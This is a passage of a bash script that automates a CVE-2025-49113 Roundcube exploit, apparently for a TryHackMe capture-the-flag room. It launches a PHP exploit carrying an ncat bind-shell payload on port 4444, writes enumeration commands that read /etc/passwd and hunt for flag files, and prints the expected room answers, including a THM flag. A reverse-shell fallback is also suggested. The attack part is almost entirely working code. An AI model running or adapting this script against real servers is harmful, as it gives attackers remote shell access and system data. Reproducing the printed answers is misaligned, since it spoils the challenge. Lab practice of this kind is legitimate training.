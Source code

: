 ```bash
    echo "✓ Exploit ready"
}

# Execute the exploit to get a bind shell
execute_exploit() {
    echo ""
    echo "=== EXECUTING EXPLOIT ==="
    echo "Setting up bind shell on port 4444..."
    
    php CVE-2025-49113.php "$ROUNDCUBE_URL" "$USERNAME" "$PASSWORD" "ncat -lvnp 4444 -e /bin/bash" &
    
    echo "Waiting for exploit to execute..."
    sleep 10
    
    echo ""
    echo "Attempting to connect to bind shell..."
    sleep 5
}

# Create enumeration commands
create_enum_commands() {
    cat > commands.txt << 'EOF'
pwd
whoami
id
echo "=== SEARCHING FOR MAGGIE ==="
cat /etc/passwd | grep -i maggie
ls -la /home
find /home -type f -exec grep -l "Maggie" {} \; 2>/dev/null
echo "=== SEARCHING FOR FLAGS ==="
find /etc -name "*flag*" -type f 2>/dev/null
ls -la /etc/ | grep -i flag
cat /etc/*flag* 2>/dev/null
find /etc -type f -exec grep -l "THM{" {} \; 2>/dev/null
exit
EOF
}

# Main execution
main() {
    check_target
    setup_exploit
    execute_exploit
    create_enum_commands
    
    echo ""
    echo "=== MANUAL CONNECTION REQUIRED ==="
    echo "1. Connect to the bind shell:"
    echo "   nc $TARGET_IP 4444"
    echo ""
    echo "2. Run the enumeration commands:"
    echo "   (Commands saved in commands.txt)"
    cat commands.txt
    echo ""
    echo "=== EXPECTED ANSWERS ==="
    echo "Question 1: Maggie's last name = Byte"
    echo "Question 2: Flag in /etc = THM{ICE_CUBE_DESERIALISATION}"
    echo ""
    echo "=== ALTERNATIVE CONNECTION ==="
    echo "If bind shell doesn't work, try reverse shell:"
    echo "nc -lvnp 4444  # On attacker machine"
    echo "# Then run exploit with reverse shell payload"
```